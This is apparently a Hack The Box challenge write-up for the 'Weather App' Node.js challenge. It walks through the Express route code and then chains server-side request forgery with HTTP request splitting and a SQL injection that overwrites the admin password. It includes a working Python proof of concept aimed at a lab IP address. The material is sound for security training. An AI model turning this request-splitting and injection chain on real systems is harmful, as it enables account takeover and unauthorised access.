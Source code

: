 ```yaml
---
layout: single
title: Weather App - Hack The Box
excerpt: "A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free! 🧙‍♀️"
date: 2023-08-20
classes: wide
header:
  teaser: assets/images/htb-writeup-WeatherApp/hederg3.PNG
  teaser_home_page: true
  icon: assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Challenge
  - SSRF
  - SQL
---
```


![](../assets/images/htb-writeup-WeatherApp/website.PNG)


**index.js File:**

```js
   1   │ const path              = require('path');
   2   │ const fs                = require('fs');
   3   │ const express           = require('express');
   4   │ const router            = express.Router();
   5   │ const WeatherHelper     = require('../helpers/WeatherHelper');
   6   │ 
   7   │ let db;
   8   │ 
   9   │ const response = data => ({ message: data });
  10   │ 
  11   │ router.get('/', (req, res) => {
  12   │     return res.sendFile(path.resolve('views/index.html'));
  13   │ });
  14   │ 
  15   │ router.get('/register', (req, res) => {
  16   │     return res.sendFile(path.resolve('views/register.html'));
  17   │ });
  18   │ 
  19   │ router.post('/register', (req, res) => {
  20   │ 
  21   │     if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
  22   │         return res.status(401).end();
  23   │     }
  24   │ 
  25   │     let { username, password } = req.body;
  26   │ 
  27   │     if (username && password) {
  28   │         return db.register(username, password)
  29   │             .then(()  => res.send(response('Successfully registered')))
  30   │             .catch(() => res.send(response('Something went wrong')));
  31   │     }
  32   │ 
  33   │     return res.send(response('Missing parameters'));
  34   │ });
  35   │ 
  36   │ router.get('/login', (req, res) => {
  37   │     return res.sendFile(path.resolve('views/login.html'));
  38   │ });
  39   │ 
  40   │ router.post('/login', (req, res) => {
  41   │     let { username, password } = req.body;
  42   │ 
  43   │     if (username && password) {
  44   │         return db.isAdmin(username, password)
  45   │             .then(admin => {
  46   │                 if (admin) return res.send(fs.readFileSync('/app/flag').toString());
  47   │                 return res.send(response('You are not admin'));
  48   │             })
  49   │             .catch(() => res.send(response('Something went wrong')));
  50   │     }
  51   │     
  52   │     return re.send(response('Missing parameters'));
  53   │ });
  54   │ 
  55   │ router.post('/api/weather', (req, res) => {
  56   │     let { endpoint, city, country } = req.body;
  57   │ 
  58   │     if (endpoint && city && country) {
  59   │         return WeatherHelper.getWeather(res, endpoint, city, country);
  60   │     }
  61   │ 
  62   │     return res.send(response('Missing parameters'));
  63   │ }); 
  64   │ 
  65   │ module.exports = database => { 
  66   │     db = database;
  67   │     return router;
  68   │ };
```

## Code Analysis
We will find that there are 4 routes available in the code, we can know that this is a node.js application with Express Applied:

![](../assets/images/htb-writeup-WeatherApp/primeraRuta.png)

![](../assets/images/htb-writeup-WeatherApp/segundaRuta.png)

![](../assets/images/htb-writeup-WeatherApp/terceraRuta.png)

![](../assets/images/htb-writeup-WeatherApp/cuartaRuta.png)

Check the routing code of `/register`:

```js
  15   │ router.get('/register', (req, res) => {
  16   │     return res.sendFile(path.resolve('views/register.html'));
  17   │ });
  18   │ 
  19   │ router.post('/register', (req, res) => {
  20   │ 
  21   │     if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
  22   │         return res.status(401).end();
  23   │     }
  24   │ 
  25   │     let { username, password } = req.body;
  26   │ 
  27   │     if (username && password) {
  28   │         return db.register(username, password)
  29   │             .then(()  => res.send(response('Successfully registered')))
  30   │             .catch(() => res.send(response('Something went wrong')));
  31   │     }
  32   │ 
  33   │     return res.send(response('Missing parameters'));
  34   │ });
```
As we can see that if a user wants to register, they must meet these conditions:

- Only requests originating from the same machine (localhost) are allowed.
  
Check the routing code of `/login`:

```js
  36   │ router.get('/login', (req, res) => {
  37   │     return res.sendFile(path.resolve('views/login.html'));
  38   │ });
  39   │ 
  40   │ router.post('/login', (req, res) => {
  41   │     let { username, password } = req.body;
  42   │ 
  43   │     if (username && password) {
  44   │         return db.isAdmin(username, password)
  45   │             .then(admin => {
  46   │                 if (admin) return res.send(fs.readFileSync('/app/flag').toString());
  47   │                 return res.send(response('You are not admin'));
  48   │             })
  49   │             .catch(() => res.send(response('Something went wrong')));
  50   │     }
  51   │     
  52   │     return re.send(response('Missing parameters'));
  53   │ });
```

We can see that if you log in with the Admin User we can access `/app/flag` and get the flag otherwise it sends you a message `'you are not admin'`.

## Ideas
We will be using SSRF to attack the program, and the point of exploitation is obvious here.
![](../assets/images/htb-writeup-WeatherApp/ssrf.PNG)

We can try to make additional http requests by truncating characters.
```js
%27 —> ‘
%22 —> “
\u0120 —> (space)
\u010D —> \r
\u010A —> \n
```
## Intrusión

Useful load

Update password to admin user via sql query.
```sql
‘) ON CONFLICT (username) DO UPDATE SET password = ‘passwd123’; —
```

Write the POC
```py
   1   │ import requests
   2   │ 
   3   │ username = 'admin'
   4   │ password = "') ON CONFLICT (username) DO UPDATE SET password = 'passwd123';--"
   5   │ 
   6   │ username = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
   7   │ password = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
   8   │ 
   9   │ endpoint = "127.0.0.1/" + "\u0120" + "HTTP/1.1" + "\u010D\u010A"  +  "Host:" + "\u0120"\
  10   │     + "127.0.0.1" + "\u010D\u010A" + "\u010D\u010A" + "POST" + "\u0120" + "/register" +\
  11   │     "\u0120" + "HTTP/1.1" + "\u010D\u010A" + "Host:" + "\u0120" + "127.0.0.1" + "\u010D\u010A"\
  12   │     + "Content-Type:" + "\u0120" + "application/x-www-form-urlencoded" + "\u010D\u010A" + \
  13   │     "Content-Length:" + "\u0120" + str(len(username) + len(password) + 19) + \
  14   │     "\u010D\u010A" + "\u010D\u010A" + "username=" + username + "&password=" + password\
  15   │     + "\u010D\u010A" + "\u010D\u010A" + "GET" + "\u0120"
  16   │ 
  17   │ requests.post('http://167.172.62.51:32440/api/weather', json={'endpoint': endpoint, 'city': 'lol', 'countr
       │ y': 'lol'})
```
Execute the POC
```py
$ python3 exploit.py
```
